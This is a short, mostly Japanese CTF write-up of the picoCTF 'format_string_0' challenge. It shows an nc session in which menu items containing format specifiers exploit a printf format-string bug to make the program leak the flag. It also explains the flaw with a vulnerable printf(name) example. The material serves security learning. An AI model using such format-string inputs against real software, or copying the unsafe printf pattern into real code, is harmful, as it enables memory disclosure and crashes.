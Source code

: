 # format_string_0:Binary easy  
Can you use your knowledge of format strings to make the customers happy?  

Download the source [here](format_string_0.c).  

Additional details will be available after launching your challenge instance.  

# Solution  
バイナリ、ソースコードが渡される。  

$ nc mimas.picoctf.net 54088  
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?  
Here comes the first customer Patrick who wants a giant bite.  
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe  
Enter your recommendation: Gr%114d_Cheese  
Gr                                                                                                             4202954_Cheese  
Good job! Patrick is happy! Now can you serve the second customer?  
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)  
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak  
Enter your recommendation: Cla%sic_Che%s%steak  
ClaCla%sic_Che%s%steakic_Che(null)  
picoCTF{...}  

# 基礎知識  
format_string_Attack（フォーマット文字列脆弱性）  
C言語 やそれに近い低レベル言語において発生する脆弱性で、printf 系関数にユーザー入力を直接渡すことで発生  
char name[100]; char name[100];  
scanf("%s", name); scanf("%s", name);  
printf(name); // 脆弱性がある printf("Hello, %s\n", name); // 安全  

# 考えたこと  
format_string_attackを狙おうと思った  
ただ、メニューが正しくないと発生しない仕組みだとわかったので混乱した  
ソースを見るとメニューにあることとバッファサイズが６４より大きいとフラグが得られると考えた  
メニューリストにフォーマット文字が含まれていたのでそれを入力したらフラグをゲットできた  
（フォーマット文字を入力した結果表示される文字列のサイズが６４バイトを超えることを狙った）  
